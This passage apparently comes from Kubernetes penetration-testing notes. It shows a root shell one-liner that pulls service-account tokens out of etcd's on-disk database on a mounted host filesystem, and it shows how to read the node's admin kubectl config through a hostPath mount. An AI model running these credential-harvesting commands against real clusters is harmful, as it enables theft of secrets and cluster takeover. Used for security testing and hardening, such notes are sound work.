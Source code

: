 Print all etcd secrets (exploit taken from [here](https://github.com/BishopFox/badPods/blob/main/manifests/priv/README.md#mount-the-hosts-filesystem)):
```
[root@seck8s /]# db=`strings /mnt/var/lib/etcd/member/snap/db`; for x in `echo "$db" | grep eyJhbGciOiJ`; do name=`echo "$db" | grep $x -B40 | grep registry`; echo $name \| $x; echo; done
B/registry/secrets/kube-system/resourcequota-controller-token-7q9bd | eyJhbGciOiJSUzI1NiIsImtpZ...
...
```



### Access node's file system (`hostPath: ...`)

Admin config for `kubectl`:
```
[root@seck8s /]# ls -l ~/.kube/config
-rw------- 1 root root 5670 Oct  7 14:28 /root/.kube/config


[root@seck8s /]# kubectl config view
apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: DATA+OMITTED
    server: https://188.2***:6443
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
    namespace: ingress-nginx
    user: kubernetes-admin
  name: kubernetes-admin@kubernetes
current-context: kubernetes-admin@kubernetes
kind: Config
preferences: {}
users:
- name: kubernetes-admin
  user:
    client-certificate-data: REDACTED
    client-key-data: REDACTED
```